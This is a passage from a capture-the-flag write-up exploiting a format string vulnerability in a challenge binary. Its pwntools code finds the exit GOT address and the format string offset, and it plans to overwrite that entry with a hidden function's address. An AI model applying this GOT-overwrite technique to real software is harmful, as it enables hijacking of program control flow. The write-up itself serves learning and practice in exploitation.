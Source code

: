 We can use pwntools to get the address of the GOT entry for `exit`:

```python
PROC_NAME = "./TheNameCalculator"
e = ELF(PROC_NAME)
got_exit_addr = e.got['exit']
log.info("got_exit_addr = {}".format(hex(got_exit_addr)))
# Returns: got_exit_addr = 0x804a024
```

And in order to find the format offset, we use pwntools as well:

```python
# This function is used to leak the stack using the format string 
# vulnerability.
def send_payload(payload, proc = None):
	log.info("payload = {} (len = {})".format(repr(payload), len(payload)))
	if proc is None:
		proc = process(PROC_NAME)
	proc.recvuntil("name?")
	proc.send("X" * 28 + p32(MAGIC_VALUE))
	proc.recvuntil("again")
	enc_payload = encrypt(payload)
	proc.send(enc_payload)
	proc.recvuntil("name: ")
	ret = proc.recvall()
	log.info("return = {}".format(repr(ret)))
	return ret

# Since the pwntools FmtStr class uses a marker length of 20, and our input 
# is limited to 27 bytes, we need to shorten the marker to make room for
# the rest of the payload. This option isn't provided by pwntools (yet),
# so we just override the appropriate function with using inheritance. 
class FmtStrEx(FmtStr):
	def find_offset(self):
		marker_len = 8
		marker = cyclic(marker_len)
		for off in range(1,1000):
			leak = self.leak_stack(off, marker)
			leak = pack(leak)
	
			pad = cyclic_find(leak)
			if pad >= 0 and pad < marker_len:
				return off, pad
	        else:
			log.error("Could not find offset to format string on stack")
		return None, None

f = FmtStrEx(execute_fmt=send_payload)
# Prints: [*] Found format string offset: 12
```

So we want to write to address 0x804a024 (the GOT `exit` address) the value of the `superSecretFunc` entry point (0x08048596).
Since `exit` wasn't called yet, 0x804a024 still contains its original value which is 0x8048476 (a pointer to the lazy binding logic):
